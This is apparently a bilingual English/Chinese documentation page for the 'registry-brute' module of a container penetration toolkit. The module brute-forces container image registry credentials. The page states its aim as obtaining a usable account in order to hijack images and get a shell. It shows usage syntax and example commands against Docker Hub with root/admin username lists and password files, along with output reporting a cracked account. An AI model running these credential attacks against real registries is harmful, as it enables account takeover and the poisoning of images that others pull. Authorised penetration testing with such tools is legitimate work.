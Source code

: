 To container image registry, brute force the accounts and passwords cracking. 

暴力破解容器镜像源的账号和密码，获取一个可用的账户，用于劫持镜像获取Shell。

## Usage

`./cdk registry-brute <registry-url> <username|file> <password|file>.`

用户名和密码的参数，可以指定文件，单个用户名，单个密码和多个密码组合。

## Example

例如：

`./cdk registry-brute <registry-url> <username|file> <password|file>`

`./cdk registry-brute https://index.docker.io/ root,admin /tmp/passwordfile`

`./cdk registry-brute https://index.docker.io/ admin admin`

`./cdk registry-brute https://index.docker.io/ /tmp/usernamefile /tmp/passwordfile`

Output:

```bash
➜  CDK git:(main) ✗ ./cdk run registry-brute http://docker.xxxxx admin /tmp/password-list
2021/06/27 11:57:20 user dict length: 1.
2021/06/27 11:57:20 password dict length: 108.
2021/06/27 11:57:23 Account: admin:xxxxxxx is available.
2021/06/27 11:57:23 End!
```
